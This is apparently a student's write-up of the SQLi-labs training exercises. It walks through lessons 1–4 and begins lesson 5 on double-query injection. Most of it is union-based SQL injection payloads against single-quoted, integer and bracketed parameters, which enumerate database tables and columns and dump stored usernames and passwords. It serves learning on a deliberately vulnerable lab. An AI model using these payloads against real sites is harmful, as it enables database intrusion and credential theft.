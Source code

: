 PLEASE DOWNLOAD THE FILE 
the questions which i have solved were les-1,2,3,4,5(partially) and i would explain the each and every step
les1:
	so when we give some random input as id=1 we can see the output out there so our main aim is to 
		1.break the query
		2.get the database
		3.get the relation
		4.dump the thing out 
	so when we type something fancy characters like 1' or 1/ we will be getting like 
		***''1'' LIMIT 0,1' so after balancing the quotes it looks like 
			'1'' limit 0,1 ==>1' limit 0,1 
				limit a,b is like a is the starting point and b is the number of records***
	this question is about:***"Breaking single quoted query"***
		so later on we need to find the attributes in the relation of the database so we will using an function order-by initially to just find the number of attributes nad later on we goes to the keyword union select which will combine the  attributes we inputted and gives us the output according to that 
		so by using database() we get the database used 
		so the payloads are:
		1.?id=-1 union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -         ***here we will be getting the relations under the db 'security' which consists the details of the master-database 'information_schema' and the relation 'table'***
		2.?id=-1' union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- - ***this is for the getting the details of the relation users***
		3.?id=-1' union select 1,group_concat(username),group_concat(password)from security.users-- - ***for the final dumping***
	refered wiki.bi0s and 
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------	
les2-
		this is about:***just a simple integer***
		payloads used:
			?id=-1 union select 1,2,3-- -      ***since it's an integer and we can find error when we put ?id=-1'***
				?id=-1 union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -         ***here we will be getting the relations under the db 'security' which consists the details of the master-database 'information_schema' and the relation 'table'
				the details like username and password were present in the relation named 'users' so we need to access it and later on we need to get the names of the colums present in the relation 'users'***
				?id=-1 union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- -  ***-->this retrives the attributes of the table users***
as we know the table we can simply get the details of username and password		
				?id=-1 union select 1,group_concat(username),group_concat(password)from security.users-- -  ----->***retreiving the username and password***
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
les3:
question is about: "single quote with brackets"
	payloads for dumping:
		when we do 1' we get the error ''1'') LIMIT 0,1' we can see that the double quotes aren't double quotes but they are 2 single quotes and we also have a brace at the end this look like "breaking single quote with bracket           String1 = ‘) OR 1 -- -
"
this can be written as '1 ' ') limit 0,1 which is similar to 1') limit 0,1
so let's proceed with this 1') limit 0,1
***id=-1')-- -***
***?id=-1') union select 1,2,database()-- -*** ==>this retrives the database where the details were stored
and now we need to retrive the table and the number of attributes and then dump
***?id=-1') union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -***
--now we got the tables and 'users' is our goal and we can retrive the number of attributes of the given relation
***?id=-1') union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- -***
so we got the attributes and we need to get the username,password
***?id=-1') union select 1,group_concat(username),group_concat(password) from security.users-- -***
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
les-4:
question is about :double quotes with brackets
	payloads:
		when we do 1' we get the error ""1"") LIMIT 0,1" "breaking double quote with bracket           String1 = ") OR 1 -- -
"
this can be written as "1"") limit 0,1 which is similar to 1") limit 0,1
so let's proceed with this 1") limit 0,1
id=-1")-- -
?id=-1") union select 1,2,database()-- - ==>this retrives the database where the details were stored
and now we need to retrive the table and the number of attributes and then dump
?id=-1") union select 1,group_concat(table_name),2 from information_schema.tables where table_schema='security'-- -
--now we got the tables and 'users' is our goal and we can retrive the number of attributes of the given relation
?id=-1") union select 1,group_concat(COLUMN_NAME),2 from information_schema.COLUMNS where TABLE_NAME = 'users' and table_schema='security'-- -
so we got the attributes and we need to get the username,password
?id=-1") union select 1,group_concat(username),group_concat(password) from security.users-- -
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
i can succesfully install and execute the sqli-labs
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
les5:
	it's all about the double query injection
		in this we can't find any proper error which makes us to dump so we use some functions to dump the data
